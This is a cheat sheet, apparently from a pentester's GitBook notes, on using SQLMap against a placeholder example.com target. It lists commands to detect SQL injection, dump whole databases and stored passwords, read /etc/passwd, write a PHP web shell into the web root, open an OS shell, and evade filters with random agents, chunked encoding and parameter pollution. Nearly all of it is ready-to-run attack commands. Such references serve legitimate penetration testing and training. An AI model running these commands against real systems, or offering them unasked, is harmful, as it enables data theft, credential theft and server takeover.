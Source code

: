 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# SQLMap

## Commands

### Detection

{% tabs %}
{% tab title="URL (GET)" %}
```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch -v 0
```
{% endtab %}

{% tab title="URL (POST)" %}
{% code overflow="wrap" %}
```bash
sqlmap -u "http://www.example.com/vuln.php"  --data "param=value" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="File" %}
```bash
sqlmap -r request_burp.req --batch -v 0
```
{% endtab %}

{% tab title="Aggresive" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --level=5 --risk=3
```
{% endtab %}
{% endtabs %}

### Data Exfil

{% tabs %}
{% tab title="DB" %}
```bash
sqlmap -r request_burp.req --banner --current-user --current-db --is-dba
```
{% endtab %}

{% tab title="Tables" %}
```bash
sqlmap -r request_burp.req -D testdb --tables
```
{% endtab %}

{% tab title="Table Data" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump
```
{% endtab %}

{% tab title="Columns" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump -C col1,col2
```
{% endtab %}

{% tab title="Rows" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump -C --start=1 --stop=10
```
{% endcode %}
{% endtab %}

{% tab title="Schema" %}
```bash
sqlmap -r request_burp.req --schema
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Cond Enum" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req -D testdb -T testtable --dump --where="col1 LIKE 'f%'" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="Full DB Enum" %}
```bash
sqlmap -r request_burp.req -D testdb --batch -v 0
```
{% endtab %}

{% tab title="Full DBMS" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --dump-all --exclude-sysdbs --batch -v
```
{% endcode %}
{% endtab %}

{% tab title="Hail Mary" %}
```bash
sqlmap -r request_burp.req --all --batch -v 0
```
{% endtab %}
{% endtabs %}

### Advanced Data Exfil

{% tabs %}
{% tab title="Table Name" %}
```bash
sqlmap -r request_burp.req --search -T tableName --batch -v 0
```
{% endtab %}

{% tab title="Col Name" %}
```bash
sqlmap -r request_burp.req --search -C colName --batch -v 0
```
{% endtab %}

{% tab title="Connection Creds" %}
```bash
sqlmap -r request_burp.req --passwords --batch -v 0
```
{% endtab %}
{% endtabs %}

### OS Exploitation

{% tabs %}
{% tab title="Read" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --file-read "/etc/passwd"
```
{% endtab %}

{% tab title="Write" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --os-shell
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
DBAs needs certain privileges to be able to write files. Local access is also required such as write permissions in the directory we want to write to.
{% endhint %}

### Bypasses

{% tabs %}
{% tab title="Unique Value" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --randomize=rp 
```
{% endtab %}

{% tab title="Calculated Param" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```
{% endcode %}
{% endtab %}

{% tab title="Agent" %}
{% code overflow="wrap" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --random-agent
```
{% endcode %}
{% endtab %}

{% tab title="Chunked" %}
```bash
sqlmap -r request_burp.req --batch -v 0 --chunked
```
{% endtab %}

{% tab title="HPP" %}
```bash
sqlmap -r request_burp.req --batch -v 0 -hpp
```
{% endtab %}
{% endtabs %}

## Usage

### cURL

Copy as `cURL` from browser's Network tab (Figure 1).

<figure><img src="../../../.gitbook/assets/sqlmap_curl_copy.png" alt=""><figcaption><p>Figure 1: Copying the cURL command via Mozilla's Network tab.</p></figcaption></figure>

Change `curl` to `sqlmap` (Figure 2). If a specific parameter needs to be tested, we can use the `*` as follows: `--data 'uid=1*&name=test'`.&#x20;

> _`--batch` go with the default answer when prompted, `-v 0` reduces the verbosity level._

<figure><img src="../../../.gitbook/assets/sqlmap_curl2sqlmap.png" alt=""><figcaption><p>Figure 2: Changing cURL to sqlmap and we are good to go!</p></figcaption></figure>

### HTTP Requests

Capture the Request Headers via a brower or Burp (Figure 3).

> _From Mozilla `Copy Value` -> `Copy Request Headers` and then add the parameters via `Copy Value` -> `Copy POST Data`._

<figure><img src="../../../.gitbook/assets/sqlmap_copy_reqheaders_burp.png" alt=""><figcaption><p>Figure 3: Copying the POST request to a file with Burp Suite.</p></figcaption></figure>

Supply the file to SQLMap (Figure 4).

<figure><img src="../../../.gitbook/assets/sqlmap_req_file.png" alt=""><figcaption><p>Figure 4: Using SQLMap with a request file.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="GitHub Repo" %}
{% embed url="https://github.com/sqlmapproject/sqlmap" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/sqlmapproject/sqlmap/wiki/Introduction" %}
{% endtab %}
{% endtabs %}
